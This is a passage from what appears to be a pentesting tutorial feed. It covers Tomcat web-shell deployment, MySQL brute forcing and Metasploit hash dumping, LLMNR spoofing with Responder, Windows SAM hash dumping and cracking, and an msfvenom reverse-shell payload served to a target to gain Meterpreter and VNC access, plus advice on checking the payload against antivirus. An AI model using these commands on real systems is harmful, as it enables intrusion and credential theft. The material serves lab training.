<p>Again, repeating the same procedure as discussed earlier, after uploading the&nbsp;<strong>revshell.war</strong>&nbsp;file in the deploy functionality. The web shell is obtained after accessing the file at the path:&nbsp;http://192.168.1.5:8080/revshell/cmd.jsp</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Conclusion</h3>


<p>In essence, Apache Tomcat remains a preferred choice for deploying Java web applications, offering a blend of versatility and security that caters to the diverse needs of developers and administrators alike. However, due to misconfigurations it can be abused to perform certain unintended actions like Remote Code Execution.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Penetration Testing on MYSQL (Port 3306)</title>
		<link>../../../2024/11/18/penetration-testing-on-mysql-port-3306/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:50:23 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8888</guid>

					<description><![CDATA[MySQL is an open-source Relational Database Management System (RDBMS). It is widely used for managing and organizing data in a structured format, using tables to store the data. MySQL functions....]]></description>
										<content:encoded><![CDATA[
<p>MySQL is an open-source Relational Database Management System (RDBMS). It is widely used for managing and organizing data in a structured format, using tables to store the data. MySQL functions in a networked setup utilizing a client-server architecture. In this configuration, the MySQL server manages the database, while client applications connect to the server to execute tasks like querying and updating data. The interaction between the MySQL clients and the server is conducted over the TCP/IP protocol, with MySQL by default listening on port 3306.</p>


<h3 class="wp-block-heading">Table of Contents</h3>


<ul class="wp-block-list">
<li>Lab setup</li>


<li>Installation</li>


<li>Connecting to MySQL server</li>


<li>Brute forcing MySQL credentials</li>


<li>Exploitation using Metasploit</li>


<li>Configuring a custom port</li>


<li>Conclusion</li>
</ul>


<h3 class="wp-block-heading">Lab setup</h3>


<p>Target Machine: Ubuntu (192.168.31.205)</p>


<p>Attacker Machine: Kali Linux (192.168.31.141)</p>


<h3 class="wp-block-heading">Installation</h3>


<p>We are going to start with the MySQL server setup in the ubuntu machine. The command for installing the server is:</p>


<p>apt install mysql-server</p>


<figure class="wp-block-image"></figure>


<p>To check if the server is up and running, use the following command:</p>


<p>netstat -tlnp</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the server is up and running at port 3306.</p>


<h3 class="wp-block-heading">Connecting to MySQL server</h3>


<p>We are going to scan the IP using the&nbsp;<strong>nmap</strong>&nbsp;tool in kali linux to check if the service is showing as closed or open. To do so we will run the following command in kali linux:</p>


<p>nmap -p3306 -sV 192.168.31.205</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the port&nbsp;<strong>3306</strong>&nbsp;at which the mysql service is running is&nbsp;<strong>closed</strong>. The reason for it is that the MySQL server is running internally on that machine and is using the&nbsp;<strong>bind-address</strong>&nbsp;set to&nbsp;<strong>127.0.0.1</strong>&nbsp;in the default settings.</p>


<p>In order to make the service open, we need to change the configuration. For that edit the&nbsp;<strong>mysqld.cnf</strong>&nbsp;file inside the ubuntu machine. To do so use the following command:</p>


<p>nano /etc/mysql/mysql.conf.d/mysqld.cnf</p>


<figure class="wp-block-image"></figure>


<p>To make the service open, comment out (#) the&nbsp;<strong>bind-address = 127.0.0.1</strong>&nbsp;line.</p>


<figure class="wp-block-image"></figure>


<p>Now again scan the IP using the&nbsp;<strong>nmap</strong>&nbsp;tool, it can be seen that the service is open now.</p>


<p>nmap -p3306 -sV 192.168.31.205</p>


<figure class="wp-block-image"></figure>


<p>However, it can be noted that even the service state is showing as&nbsp;<strong>open</strong>, we will be unable to connect with service remotely. To enable the&nbsp;<strong>root</strong>&nbsp;user to connect from any host and perform any action on any database, the following SQL commands are used in the ubuntu machine:</p>


<p>mysql -uroot</p>


<p>CREATE USER &#8216;root&#8217;@&#8217;%&#8217; IDENTIFIED BY &#8216;123&#8217;;</p>


<p>GRANT ALL PRIVILEGES ON *.* TO &#8216;root&#8217;@&#8217;%&#8217;;</p>


<p>FLUSH PRIVILEGES;</p>


<figure class="wp-block-image"></figure>


<p>The commands from the above can be interpreted as follows:</p>


<p>The first command is used to log into the MySQL server as the&nbsp;<strong>root</strong>&nbsp;user. The second command creates a new user named&nbsp;<strong>root</strong>&nbsp;who can connect from any host (%) and sets the password to&nbsp;<strong>123</strong>. The third command grants the newly created root user all privileges on all databases and tables. The last command reloads the privilege tables, ensuring that the changes take effect immediately.</p>


<p>Now we can check if we can login into the MySQL server remotely by running the following command in kali linux:</p>


<p>mysql -h 192.168.31.205 -uroot -p</p>


<figure class="wp-block-image"></figure>


<p>Since we are able to connect with the service remotely, now we will start the pentesting.</p>


<h3 class="wp-block-heading">Brute forcing MySQL credentials</h3>


<p>We can brute force the MySQL credentials by passing a list of usernames and passwords using the&nbsp;<strong>hydra</strong>&nbsp;tool inside kali linux. Here we are using the username list as&nbsp;<strong>users.txt</strong>&nbsp;and the password list as&nbsp;<strong>pass.txt</strong>. The command for brute force attack will be:</p>


<p>hydra -L users.txt -P pass.txt 192.168.31.205 mysql</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Exploitation using Metasploit</h3>


<p>There are lot of exploits and auxiliaries related with the MySQL server. Here we are going to demonstrate few of them to give an insight on the MySQL pentesting.</p>


<p>First we will be using the&nbsp;<strong>auxiliary/admin/mysql/mysql_sql&nbsp;</strong>inside&nbsp;<strong>Metasploit&nbsp;</strong>to run the SQL queries directly after connecting with the database.</p>


<p>msfconsole -q</p>


<p>use auxiliary/admin/mysql/mysql_sql</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>set sql show databases</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>There is another auxiliary which helps in dumping the entire data, i.e.,&nbsp;<strong>auxiliary/scanner/mysql/mysql_schemadump.&nbsp;</strong>We just need to give the username and password to connect with the database and we can dump the entire schema.</p>


<p>use auxiliary/scanner/mysql/mysql_schemadump</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>To dump the usernames and password hashes, we can use the&nbsp;<strong>auxiliary/scanner/mysql/mysql_hashdump</strong>, it gives us the usernames and the password hashes as output.</p>


<p>use auxiliary/scanner/mysql/mysql_hashdump</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>In order to check if there is file which is writeable at the server side, we can identify it using the&nbsp;<strong>auxiliary/scanner/mysql/mysql_writable_dirs.&nbsp;</strong>However, it is not possible by default. There is a setting which we need to change in the configuration file after which we can enumerate the writable directory.</p>


<p>To make this configuration, edit the&nbsp;<strong>/etc/mysql/mysql.conf.d/mysqld.cnf&nbsp;</strong>file and add the line&nbsp;<strong>secure_file_priv=</strong>&nbsp;<strong>”&nbsp;</strong><strong>“</strong>&nbsp;at the end.</p>


<figure class="wp-block-image"></figure>


<p>Now check for the writable directories using Metasploit.</p>


<p>use auxiliary/scanner/mysql/mysql_writable_dirs</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>set dir_list dir.txt</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<p>It can be seen from above that the directory&nbsp;<strong>/tmp</strong>&nbsp;is writeable.</p>


<p>To enumerate the files and directories if they exist on the machine or not we can use the&nbsp;<strong>auxiliary/scanner/mysql/mysql_file_enum</strong>. It will give us the results if the directory or file exists or not.</p>


<figure class="wp-block-image"></figure>


<p>Finally, to enumerate the whole MySQL server we can use the&nbsp;<strong>auxiliary/admin/mysql/mysql_enum</strong>, which will perform the enumeration on the MySQL server after using the valid credentials.</p>


<p>use auxiliary/admin/mysql/mysql_enum</p>


<p>set rhosts 192.168.31.205</p>


<p>set username root</p>


<p>set password 123</p>


<p>run</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Configuring a custom port</h3>


<p>To perform the port modification in MySQL, we need to edit the configuration file. The path for the file is&nbsp;<strong>/etc/mysql/mysql.conf.d/mysqld.cnf</strong>.</p>


<p>nano etc/mysql/mysql.conf.d/mysqld.cnf</p>


<figure class="wp-block-image"></figure>


<p>As we can see that the default port is&nbsp;<strong>3306</strong>&nbsp;which is getting used and is commented out (#). We can modify the port number to&nbsp;<strong>4403</strong>&nbsp;and remove the comment (#) from the line.</p>


<figure class="wp-block-image"></figure>


<p>Now if we scan the IP using&nbsp;<strong>nmap</strong>, it can be seen that the service is up and running at port&nbsp;<strong>4403</strong>.</p>


<figure class="wp-block-image"></figure>


<h3 class="wp-block-heading">Conclusion</h3>


<p>MySQL server has been a popular choice for most of the application developers from many years, however it’s misconfiguration can lead to the data leakage. It is recommended to use the proper configuration and implement a strong password policy for the service.</p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Advanced System &#038; Network Pen-Testing Guides</title>
		<link>../../../2024/11/18/advanced-system-network-pen-testing-guides/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:41:42 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8869</guid>

					<description><![CDATA[System hacking is the science of testing computers and network for vulnerabilities and harmful plug-ins. System hacking is itself a vast subject which consists of hacking the different software based....]]></description>
										<content:encoded><![CDATA[
<p>System hacking is the science of testing computers and network for vulnerabilities and harmful plug-ins. System hacking is itself a vast subject which consists of hacking the different software based technological systems such as laptops, desktops, etc. System hacking is defined as the compromise of computer systems and software to gain access to the target computer and steal or misuse their sensitive information. Here the malicious hacker exploits the weaknesses in a computer system or network to gain unauthorized access of its data or take illegal advantage of it.</p>


<h1 class="wp-block-heading" id="llmnrnbt-ns">LLMNR/NBT-NS</h1>


<p>Link-Local Multicast Name Resolution (LLMNR) and Netbios Name Service (NBT-NS) are two components of Microsoft Windows machines. LLMNR was introduced in Windows Vista and is the successor to NBT-NS.</p>


<p>When a DNS name server request fails, Link-Local Multicast Name Resolution(LLMNR) and Net-BIOS Name Service(NBT-NS) is used by Windows machines as a fallback. If the DNS name still remains unresolved, the windows performs an unauthenticated UDP broadcast to the whole network. Any masquerading machine, claiming to be the server then sends a response and capture the target’s credentials during the authentication process.</p>


<p><strong>LLMNR/NBT-NS Spoofing attack</strong>&nbsp;is a classical internal network attack that still works, due to low awareness and the fact it’s enabled by default in Windows.</p>


<figure class="wp-block-image"></figure>


<p>LLMNR and NBT-NS are enabled by default in Windows and can be used to extract the passwords hashes from a user. There is a good chance of acquiring the user credentials on a internal network.</p>


<p>By listening for LLMNR/NBT-NS broadcast requests, it is possible for an attacker to spoof itself as the server and send a response claiming to be the legitimate server. After the victim system accepts the connection, it is possible to gain the victim’s user-credentials by using a tool like Responder.py.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Perform LLMNR/NBT-NS spoofing attack.</li>
</ul>


<h3 class="wp-block-heading" id="requesites">Requesites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#requesites"></a></h3>


<ul class="wp-block-list">
<li>Windows 10 virtual machine.</li>


<li>Kali Linux virtual machine.</li>
</ul>


<h2 class="wp-block-heading" id="using-responder">Using Responder<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#using-responder"></a></h2>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Launch and login to Windows 10 machine. (Make sure to select a common password that ‘non-tech’ people will use &#8211; i.e <strong>qwerty</strong>).</li>


<li>Go to Kali Linux and open the Terminal window.</li>


<li>Start Responder to listen the network interface. (You can type <code>responder -h</code> to see the options available).</li>
</ol>


<p><code>responder -I eth0</code></p>


<ol class="wp-block-list">
<li>Now go back to the Windows 10 machine and let’s assume that you want to access a shared network drive connected in your network. Launch <strong>run</strong> and type:</li>
</ol>


<p><code>\\ceh-tools</code></p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="obtaining-and-cracking-the-hashes">Obtaining and Cracking the Hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/1-LLMNR-NBT-NS.html#obtaining-and-cracking-the-hashes"></a></h2>


<p>On the Kali Machine, Responder starts capturing the access logs of Windows 10 machine as shown below:</p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go to <strong>/usr/share/responder/logs/</strong> and open the last file created by responder:</li>
</ol>


<p><strong>SMB-NTLMv2-SSP-10.0.2.39.txt</strong>&nbsp;</p>


<p>These are hashes of the logged in user collected by responder. Now let’s crack these hashes.</p>


<p>To crack the passwords we will use&nbsp;<a href="https://www.openwall.com/john/">JohnTheRipper</a>.</p>


<ol class="wp-block-list">
<li>Open a new Terminal window and type <code>john</code> and the path to the responder logs + the name of your log file (note the file name may differ from your lab environment):</li>
</ol>


<p><code>john /usr/share/responder/logs/SMB-NTLMv2-SSP-10.0.2.39.txt</code></p>


<pre class="wp-block-code"><code>Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (netntlmv2, NTLMv2 C/R &#91;MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 5 candidates buffered for the current salt, minimum 8 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
qwerty           (Dummy)
4g 0:00:00:00 DONE 2/3 (2019-12-11 13:51) 26.66g/s 357713p/s 378293c/s 378293C/s 123456..random
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
</code></pre>


<p>The cracked passwords hashes of the Dummy user has shown in the output above.</p>


<h1 class="wp-block-heading" id="dumping-and-cracking-sam-hashes-to-extract-plaintext-passwords">Dumping and Cracking SAM hashes to Extract Plaintext passwords</h1>


<p>Pwdump7 can be used to dump protected files. Ophcrack is a free open source (GPL) program that cracks Windows passwords by using LM hashes through rainbow tables.</p>


<p>SAM (Security Account Manager) is a database file present in Windows machines that stores user accounts and security descriptors for users on a local computer. It stores users passwords in a hashed format (in LM hash and NTLM hash). Because a hash function is one-way, this provides some measure of security for the storage of the passwords.</p>


<p>You need to have administrator access to dump the contents of the SAM file. Assessment of password strength is a critical milestone during your security assessment engagement. You will start your password assessment with a simple SAM hash dump and running it with a hash decryptor to uncover plaintext passwords.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Use the <strong>pwdump7</strong> tool to extract password hashes.</li>


<li>Use the Ophcrack tool to crack the passwords and obtain plain text passwords.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Windows 10 machine.</li>
</ul>


<h3 class="wp-block-heading" id="tools">Tools<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#tools"></a></h3>


<ul class="wp-block-list">
<li><a href="https://ophcrack.sourceforge.io/">Ophcrack</a></li>


<li><a href="https://www.tarasco.org/security/pwdump_7/index.html">Pwdump7</a></li>
</ul>


<h2 class="wp-block-heading" id="generate-hashes">Generate Hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#generate-hashes"></a></h2>


<ol class="wp-block-list">
<li>Before anything, we need to find the User IDs associated with the usernames for Windows 10.</li>


<li>Launch the Command prompt in Administrator mode and type:</li>
</ol>


<p><code>wmic useraccount get name,sid &gt; c:/users.txt</code></p>


<p>This command we got the usernames and their respective UserIDs.&nbsp;<strong>Make a note of each UserID for further steps.</strong></p>


<ol class="wp-block-list">
<li>To gather the Password hashes, go to the <strong>pwdump7</strong> folder and execute the .exe file.</li>
</ol>


<p><code>cd C:\Users\Dummy\Desktop\pwdump7</code></p>


<p><code>PwDump7.exe</code></p>


<p>To gather this information on external .txt file, type:</p>


<p><code>PwDump7.exe &gt; c:\hashes.txt</code></p>


<p>Now place the usernames before the respective UserIDs that we have gathered in&nbsp;<strong>step 2</strong>&nbsp;and save the file.</p>


<h2 class="wp-block-heading" id="using-ophcrack-to-crack-the-hashes">Using Ophcrack to crack the hashes<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/2-SAM-Hashes.html#using-ophcrack-to-crack-the-hashes"></a></h2>


<ol class="wp-block-list">
<li>Launch the Ophcrack application.</li>


<li>Click on <strong>Load</strong> and select <strong>PWDUMP file</strong></li>
</ol>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Next, you will need to <a href="https://ophcrack.sourceforge.io/tables.php">download</a> tables to perform the cracking. Select the <strong>Vista free</strong> to download.</li>


<li>Go to the Ophcrack and click the <strong>Tables</strong> menu to load the Table.</li>


<li>On the Table Selection window, select the <strong>Vista free</strong>, and click <strong>Ok</strong>.</li>
</ol>


<p>This table_vista_free is a pre-computed table for reversing cryptographic hash functions and recovering plaintext passwords up to a certain length. The selected&nbsp;<strong>table_vista_free</strong>&nbsp;is installed under the name&nbsp;<strong>Vista free</strong>, which is represented by a&nbsp;<strong>green</strong>&nbsp;colored bullet.</p>


<ol class="wp-block-list">
<li>Click <strong>Crack</strong> on the menu bar. Ophcrack begins to crack passwords. This action will take a few minutes.</li>
</ol>


<h1 class="wp-block-heading" id="rainbow-tables">Rainbow Tables</h1>


<p>RainbowCrack is a computer program that generates rainbow tables for use in password cracking.</p>


<p>RainbowCrack&nbsp;<a href="https://project-rainbowcrack.com/documentation.htm">Documentation</a></p>


<h3 class="wp-block-heading" id="overview-of-rainbow-tables">Overview of Rainbow Tables<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#overview-of-rainbow-tables"></a></h3>


<p>A rainbow table is a pre-computed table for reversing cryptographic hash functions, typically used for cracking password hashes. Tables are usually used in recovering the plaintext password consisting of a limited set of characters, up to a certain length.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Short introduction to rainbow tables and use them to crack the hashes and obtain plain text passwords.</li>
</ul>


<h2 class="wp-block-heading" id="generate-rainbow-table">Generate Rainbow Table<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#generate-rainbow-table"></a></h2>


<p>To obtain rainbow tables you can&nbsp;<a href="https://freerainbowtables.com/">download</a>&nbsp;or manually generate using&nbsp;<code>rtgen</code>&nbsp;that comes with&nbsp;<code>rainbowcrack</code>&nbsp;package.</p>


<p>Install RainbowCrack CLI version:</p>


<p><code>sudo apt-get install rainbowcrack</code></p>


<p><strong>GUI</strong>&nbsp;version: https://project-rainbowcrack.com/</p>


<p><strong>Usage example</strong>:&nbsp;<code>rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index chain_len chain_num part_index</code></p>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Hash Algorithm</th><th>Description</th></tr></thead><tbody><tr><td><strong>hash_algorithm</strong></td><td>Rainbow table is hash algorithm specific. Rainbow table for a certain hash algorithm only helps to crack hashes of that type. The rtgen program natively support lots of hash algorithms like lm, ntlm, md5, sha1, mysqlsha1, halflmchall, ntlmchall, oracle-SYSTEM and md5-half. In the example above, we generate md5 rainbow tables that speed up cracking of md5 hashes.</td></tr><tr><td><strong>charset</strong></td><td>The charset includes all possible characters for the plaintext. “loweralpha-numeric” stands for “abcdefghijklmnopqrstuvwxyz0123456789”, which is defined in configuration file charset.txt.</td></tr><tr><td><strong>plaintext_len_min plaintext_len_max</strong></td><td>These two parameters limit the plaintext length range of the rainbow table. In the example above, the plaintext length range is 1 to 7. So plaintexts like “a” and “abcdefg” are likely contained in the rainbow table generated. But plaintext “abcdefgh” with length 8 will not be contained.</td></tr><tr><td><strong>table_index1</strong></td><td>The table_index parameter selects the reduction function. Rainbow table with different table_index parameter uses different reduction function.</td></tr><tr><td><strong>chain_len1</strong></td><td>This is the rainbow chain length. Longer rainbow chain stores more plaintexts and requires longer time to generate.</td></tr><tr><td><strong>chain_num1</strong></td><td>Number of rainbow chains to generate. Rainbow table is simply an array of rainbow chains. Size of each rainbow chain is 16 bytes.</td></tr><tr><td><strong>part_index</strong></td><td>To store a large rainbow table in many smaller files, use different number in this parameter for each part and keep all other parameters identical.</td></tr></tbody></table></figure>


<p><strong>Example:</strong></p>


<p><code>rtgen md5 loweralpha-numeric 1 7 0 3800 33554432 0</code></p>


<p>CPU will be busy computing rainbow chains. On system with multi-core processor, all cores are fully utilized.</p>


<p>To pause table generation, just press Ctrl+C and rtgen program will exit. Next time if the rtgen program is executed with exactly same parameters, table generation is resumed.</p>


<p><strong>This command takes hours to complete with ordinary processor.</strong></p>


<p>After generating the rainbow table you need to sort it. Rainbowcrack comes with&nbsp;<code>rtsort</code>&nbsp;program, that sorts the rainbow chains by end point to make binary search possible so the processor can access them quicker.</p>


<p><code>rtsort *.rt</code></p>


<h2 class="wp-block-heading" id="cracking">Cracking<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/3-Rainbow-tables.html#cracking"></a></h2>


<p>To display the usage and options just type&nbsp;<code>rcrack</code>.</p>


<pre class="wp-block-code"><code>usage: ./rcrack path &#91;path] &#91;...] -h hash
       ./rcrack path &#91;path] &#91;...] -l hash_list_file
       ./rcrack path &#91;path] &#91;...] -lm pwdump_file
       ./rcrack path &#91;path] &#91;...] -ntlm pwdump_file
path:              directory where rainbow tables (*.rt, *.rtc) are stored
-h hash:           load single hash
-l hash_list_file: load hashes from a file, each hash in a line
-lm pwdump_file:   load lm hashes from pwdump file
-ntlm pwdump_file: load ntlm hashes from pwdump file

implemented hash algorithms:
    lm HashLen=8 PlaintextLen=0-7
    ntlm HashLen=16 PlaintextLen=0-15
    md5 HashLen=16 PlaintextLen=0-15
    sha1 HashLen=20 PlaintextLen=0-20
    sha256 HashLen=32 PlaintextLen=0-20

examples:
    ./rcrack . -h 5d41402abc4b2a76b9719d911017c592
    ./rcrack . -l hash.txt
</code></pre>


<h1 class="wp-block-heading" id="l0phtcrack">L0phtCrack</h1>


<p>L0phtCrack is a password auditing tool that contains features such as scheduling, hash extraction from 64-bit Windows versions, multiprocessor algorithms, and network monitoring and decoding. It can import and crack UNIX password files from remote Windows machines.</p>


<p>Free Trial: https://www.l0phtcrack.com/<br>Documentation: https://www.l0phtcrack.com/doc/</p>


<h1 class="wp-block-heading" id="exploiting-client-side-vulnerabilities-and-establishing-a-vnc-session">Exploiting Client Side Vulnerabilities and Establishing a VNC session</h1>


<p>Attackers use client-side vulnerabilities to exploit unpatched software, thereby attaining access to the machine on which the software is installed.</p>


<p>VNC enables attackers to remotely access and control computers targeted from another computer or mobile device, wherever they are in the world. At the same time, it is also used by administrator and organizations throughout every industry sector for a range of different scenarios and use cases, including providing IT desktop support to colleagues and friends, and accessing systems and services on the move.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to exploit client-side vulnerabilities and establish a VNC session.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine (Attacker).</li>


<li>Windows 10 virtual machine (Target).</li>
</ul>


<h2 class="wp-block-heading" id="launch-metasploit-framework">Launch Metasploit Framework<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#launch-metasploit-framework"></a></h2>


<p>Launch Kali Linux and open the Terminal window and type:</p>


<p><code>msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.0.2.42 LPORT=444 -o /root/Desktop/Test.exe</code></p>


<p><strong>Note</strong>: LHOST is the IP address of your Kali machine.</p>


<p>This command will generate Test.exe, a malicious file on Desktop as shown in below:</p>


<pre class="wp-block-code"><code>No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: /root/Desktop/Test.exe
</code></pre>


<p>You can also try this by using the&nbsp;<code>msfconsole</code>.</p>


<p>To check the malicious file that you created, go to https://nodistribute.com/ or https://antiscan.me and upload the file:</p>


<figure class="wp-block-image"></figure>


<p>This site will perform a scan over 20 AV softwares databases.&nbsp;<strong>Do not upload your backdoors or any file to virusTotal.</strong></p>


<h2 class="wp-block-heading" id="share-the-malicious-file-on-target">Share the malicious file on target<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#share-the-malicious-file-on-target"></a></h2>


<p>Now create a directory to share this file with the target machine provide the permissions and copy the file from Desktop to shared location:</p>


<p>Create a directory on html folder:<br><code>mkdir /var/www/html/share/</code></p>


<p>Change the mode for the share to&nbsp;<strong>755</strong>:<br><code>chmod -R 755 /var/www/html/share/</code></p>


<p>Change the ownership of that folder to&nbsp;<strong>www-data</strong>:<br><code>chown -R www-data:www-data /var/www/html/share/</code></p>


<p>Now copy the malicious file to the shared location:<br><code>cp /root/Desktop/Test.exe /var/www/html/share/</code></p>


<p>Next, start the apache service:<br><code>service apache2 start</code></p>


<p>Open a new terminal window and type&nbsp;<code>msfconsole</code>&nbsp;to launch Metasploit Framework.</p>


<p>Use the&nbsp;<code>multi/handler</code>&nbsp;to capture the session.</p>


<figure class="wp-block-image"></figure>


<p>In msfconsole:</p>


<ol class="wp-block-list">
<li><code>use multi/handler</code></li>


<li><code>set payload windows/meterpreter/reverse_tcp</code></li>


<li>set the <code>LHOST</code> to your Kali IP address and <code>LPORT</code> to 444</li>


<li><code>run</code> the exploit</li>
</ol>


<h4 class="wp-block-heading" id="reverse-tcp">Reverse TCP<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#reverse-tcp"></a></h4>


<p>A reverse shell (also known as a connect-back) is the exact opposite: it requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally the attacker receives the shell.</p>


<p>This module exploits memory corruption vulnerability within Microsoft’s HTML engine (mshtml). When parsing an HTML page containing a recursive CSS import, a C++ object is deleted and later reused.</p>


<h2 class="wp-block-heading" id="on-windows-machine">On Windows machine<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#on-windows-machine"></a></h2>


<p>Remember to deactivate all Windows Defender parameters.</p>


<p>Launch the browser and type the IP address of the Kali machine that are running apache webserver and download the&nbsp;<strong>Test.exe</strong>.</p>


<p>In my case is&nbsp;<code>http://10.0.2.42/share</code></p>


<figure class="wp-block-image"></figure>


<p>Double click&nbsp;<strong>Test.exe</strong>.<br>You will get a Security Warning window, click&nbsp;<strong>run</strong>.</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="meterpreter">Meterpreter<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#meterpreter"></a></h2>


<p>Switch to Kali Linux machine and check if there is any session that are opened in the Meterpreter Shell as shown below:</p>


<figure class="wp-block-image"></figure>


<p>Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code.</p>


<p>Useful commands: https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/</p>


<p>About Meterpreter: https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/</p>


<h2 class="wp-block-heading" id="remote-view-in-kali-linux">Remote View in Kali Linux<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/4-VNC-Session.html#remote-view-in-kali-linux"></a></h2>


<p>Now, you can create a VNC session on Windows 10 machine remotely by typing:</p>


<p><code>run vnc</code></p>


<p>This command will open a VNC session of the Target’s machine as shown below:</p>


<figure class="wp-block-image"></figure>


<p>Useful links:</p>


<ul class="wp-block-list">
<li><a href="https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf">Metasploit Cheat Sheet &#8211; SANS</a></li>


<li><a href="https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf">Meterpreter Cheat Sheet</a></li>


<li><a href="https://widesecurity.net/linux/msfvenom-cheat-sheet/">Msfvenom Cheat Sheet</a></li>
</ul>


<h1 class="wp-block-heading" id="escalating-privileges">Escalating Privileges</h1>


<p>Privilege Escalation is the demonstration of misusing a bug, configuration imperfection, or design oversight in a working framework or programming application to increase lifted access to assets that are regularly shielded from an application or client.</p>


